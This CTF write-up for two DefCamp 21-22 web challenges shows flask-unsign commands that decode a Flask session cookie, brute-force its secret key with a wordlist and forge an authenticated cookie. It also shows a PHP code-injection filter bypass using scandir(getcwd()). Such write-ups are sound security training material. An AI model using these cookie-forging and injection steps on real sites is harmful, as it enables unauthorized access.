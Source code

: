 #  DefCamp CTF 21-22

## Web-intro:

I will use flask-unsign to decode flask cookie:

Install:

```
$ pip3 install flask-unsign
```

*See more here: https://github.com/Paradoxis/Flask-Unsign*

```
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgvWzw.RVvQdTFJNfYcF0W3VnMiB5avTuU'
```

![image](https://user-images.githubusercontent.com/83667873/154107707-e97af813-b428-418f-8a41-22abe662207f.png)

You can see "logged_in" is false. We must create new cookie with "logged_in" value is true.

First, We need to find secret key. I will use `rockme.txt` wordlist to bruteforce.

```
flask-unsign --unsign --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgvWzw.RVvQdTFJNfYcF0W3VnMiB5avTuU --wordlist  rockyou.txt --no-literal-eval
```

![image](https://user-images.githubusercontent.com/83667873/154108439-457360df-4dee-496c-8f8e-e786e52f5ba9.png)

Found secret key: `password`. 

I will use seccret key to create new cookie has value `logged_in: True`

```
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'
```

![image](https://user-images.githubusercontent.com/83667873/154108616-52ac92be-802a-4776-bed7-0e066caf2d0a.png)

Change cookie value to new value, we will get the flag:

![image](https://user-images.githubusercontent.com/83667873/154109040-e868b019-6ae8-4a14-86bf-c6735ad82e1e.png)

## casual-defence

![image](https://user-images.githubusercontent.com/83667873/154109378-5afec01b-fc88-49f1-9b78-fb50f1428e1a.png)

cmd parameter will get php command:

![image](https://user-images.githubusercontent.com/83667873/154109600-27a8f418-eb76-44d4-a0ac-965d0acb4ef1.png)

Disable function:

![image](https://user-images.githubusercontent.com/83667873/154109861-a31bd435-593b-460d-ac98-11476a01a80b.png)

Because, `.` is filtered, so I will use below command to list file in current directory:

```
scandir(getcwd());
```

![image](https://user-images.githubusercontent.com/83667873/154110766-96b933c0-e71b-4c0c-9dbd-6dfa509d439d.png)

Oh, nothing is special, so try to to show file index.php:

You can see  `index.php` is at the position immediately before the last element. So use below command to get filename:

![image](https://user-images.githubusercontent.com/83667873/154112213-b24eaa55-fe86-4cff-b720-db80983b4f08.png)


Read file:

![image](https://user-images.githubusercontent.com/83667873/154112354-6dcfd661-39ab-48e1-91a4-e32bc1356abe.png)


**Flag: CTF{40c7bf1cd2186ce4f14720c4243f1e276a8abe49004b788921828f13a026c5f1}**

